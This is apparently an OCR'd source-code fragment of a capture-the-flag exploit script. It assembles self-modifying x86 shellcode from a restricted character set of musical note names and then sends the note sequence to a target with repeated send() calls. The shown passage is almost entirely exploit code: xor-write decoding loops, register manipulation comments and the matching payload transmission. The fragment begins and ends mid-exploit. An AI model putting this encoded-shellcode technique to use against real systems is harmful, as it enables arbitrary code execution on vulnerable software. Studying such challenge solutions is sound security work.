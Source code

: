 ```
inc edi ; G
ss inc edi ; 6G
ss inc edi ; 6G
ss inc edi ; 6G
xor    DWORD PTR [edi+0x30],eax ; 1G0

; G6 G6 G6 G1 G0 third xor write
inc edi ; G
ss inc edi ; 6G
ss inc edi ; 6G
ss inc edi ; 6G
xor    DWORD PTR [edi+0x30],eax ; 1G0

; G6 G6 G6 G1 G0 fourth xor write
inc edi ; G
ss inc edi ; 6G
ss inc edi ; 6G
ss inc edi ; 6G
xor    DWORD PTR [edi+0x30],eax ; 1G0

; G6 G6 G6 G1 G0 fifth xor write
inc edi ; G
ss inc edi ; 6G
ss inc edi ; 6G
ss inc edi ; 6G
xor    DWORD PTR [edi+0x30],eax ; 1G0
'''
send("A1")
send("G0")
clearStackSpot()
clearStackSpot()
clearStackSpot()
clearStackSpot()


'''
; A3 F#6 A4 A6 A4 C6 A (Last A is borrowed from next step)
inc    ecx ; A
xor    eax, DWORD PTR [esi+0x23] ; 3F#
ss inc ecx ; 6A
xor    al,0x41 ;  4A
ss inc ecx ; 6A
xor    al,0x43 ; 4C
ss inc ecx ; 6A
'''
send("A3")
send("F#6")
send("A4")
send("A6")
send("A4")
send("C6")
send("A0")



'''
; 0 G0 A0 G2 A0 G3
xor    BYTE PTR [edi+0x30], al ; 0G0
inc    ecx ; A
xor    BYTE PTR [edi+0x32], al ; 0G2
inc    ecx ; A
xor    BYTE PTR [edi+0x33], al ; 0G3
'''
```